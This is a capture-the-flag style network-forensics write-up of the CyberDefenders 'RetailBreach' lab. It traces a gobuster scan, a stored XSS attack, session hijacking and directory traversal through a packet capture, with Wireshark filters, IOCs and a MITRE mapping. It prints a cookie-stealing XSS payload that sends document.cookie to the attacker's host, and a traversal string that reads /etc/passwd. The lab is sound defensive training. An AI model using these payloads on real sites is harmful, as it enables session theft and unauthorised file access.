








# CyberDefenders — RetailBreach

**Category:** Network Forensics (PCAP)  ·  **Evidence:** `RetailBreach.pcap`  ·  **Tool:** Wireshark

---

## Scenario

ShopSphere, an online retail platform, observed unusual administrative login activity during late-night hours, coinciding with customer complaints of account anomalies. The task: investigate a packet capture of the attack traffic to determine how the attacker infiltrated the system, the methods used, and the extent of the compromise.

## Overview

Using **gobuster**, the attacker (`111.224.180.128`) performed directory brute-forcing against the ShopSphere web server (`73.124.17.52`), generating a large volume of `404 Not Found` responses. The fuzzing revealed `/admin`, which returned `301 Moved Permanently` — exposing the admin login directory.

Unable to authenticate directly, the attacker pivoted to the public `reviews.php` page and injected a **stored cross-site scripting (XSS)** payload:

```
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```

Because the payload is *stored*, it executed when the admin (`135.143.142.5`) viewed the page, exfiltrating the admin's session cookie to the attacker's host. The attacker then **replayed that stolen `PHPSESSID`** from their own host to authenticate as the admin — session hijacking. The decisive evidence: the **same session token appears from both the victim's IP and the attacker's IP**, which should never happen for a legitimately issued cookie.

With admin access, the attacker abused `log_viewer.php` via **directory traversal** (`?file=../../../../../etc/passwd`) to read the system account file. (`/etc/passwd` lists accounts but not password hashes — those are in `/etc/shadow`.)

**Hosts:** `73.124.17.52` web server · `111.224.180.128` attacker · `135.143.142.5` victim admin



---

## Analysis

### Q1 — Attacker's IP address

A host performing directory fuzzing draws a flood of `404 Not Found` responses. Filtering for those shows almost all of them returned to one host.

```
http and (_ws.col.info == "HTTP/1.1 404 Not Found  (text/html)")
```



**Answer:** `111.224.180.128`

### Q2 — Brute-forcing tool

The tool identifies itself in the HTTP `User-Agent` header of the fuzzing traffic.



**Answer:** `gobuster` (v3.6)

### Q3 — XSS payload

The script was injected via the public reviews page. Filter for POST requests containing a script tag, then Follow the HTTP Stream to read the full payload.

```
http.request.method == "POST" and frame contains "script"
```



**Answer:** `<script>fetch('http://111.224.180.128/' + document.cookie);</script>` — stored XSS; executes in the browser of any user who later views the review.

### Q4 — Timestamp admin encountered the script

Identify the admin host (Endpoints), then filter its admin-area traffic for the first visit after the payload was planted.

```
(http) && (ip.addr == 135.143.142.5) and frame contains "admin"
```



**Answer:** `2024-03-29 12:09` (UTC)

### Q5 — Stolen session token

Compare the session cookie in the admin's legitimate traffic against the cookie presented from the attacker host at `/admin/dashboard.php`. A match across two source IPs confirms the hijack.



**Answer:** `PHPSESSID=lqkctf24s9h9lg67teu8uevn3q`

### Q6 — Exploited script

Filter the attacker host's requests into the admin area; it repeatedly targets a log-viewing script with a traversal sequence in its `file` parameter.

```
(http) && (ip.addr == 111.224.180.128) and frame contains "/admin/"
```



**Answer:** `log_viewer.php`

### Q7 — Sensitive-file payload

The full request URI shows the `file` parameter carrying a relative-path traversal sequence escaping the web root.



**Answer:** `?file=../../../../../etc/passwd` (directory traversal). `/etc/passwd` exposes account names but not password hashes (`/etc/shadow`).

---

## Indicators of Compromise

| Indicator | Value |
|---|---|
| Attacker / C2 host | `111.224.180.128` |
| Victim admin host | `135.143.142.5` (not hostile) |
| Web server | `73.124.17.52` (shopsphere.com) |
| Recon tool | `gobuster/3.6` |
| Stored XSS payload | `<script>fetch('http://111.224.180.128/' + document.cookie);</script>` |
| Hijacked session token | `PHPSESSID=lqkctf24s9h9lg67teu8uevn3q` |
| Exploited script | `log_viewer.php` |
| Directory traversal payload | `?file=../../../../../etc/passwd` |

## MITRE ATT&CK

| Tactic | Technique | Evidence |
|---|---|---|
| Reconnaissance | T1595.003 – Active Scanning: Wordlist Scanning | gobuster directory brute-forcing |
| Initial Access | T1190 – Exploit Public-Facing Application | Stored XSS via `reviews.php` |
| Credential Access | T1539 – Steal Web Session Cookie | XSS exfiltrates admin's session cookie |
| Lateral Movement | T1550.004 – Use Alternate Authentication Material: Web Session Cookie | Stolen `PHPSESSID` replayed as admin |
| Discovery | T1083 – File and Directory Discovery | Directory traversal to read `/etc/passwd` |

## Lessons Learned

- A burst of `404`s concentrated toward one source is a tool-agnostic signature of directory brute-forcing — filter on response codes to isolate the attacker before examining any payload.
- `User-Agent` tool attribution is attacker-controlled; it corroborates but doesn't prove. The behavioural 404 pattern is the more durable indicator.
- Stored XSS requires correlating two separate conversations — the injection, and the later privileged-victim visit that triggers it.
- The same session token from two different source IPs is the decisive evidence of session hijacking.
- Directory traversal via a `file` parameter confirms account enumeration via `/etc/passwd`, which correctly does not expose password hashes.
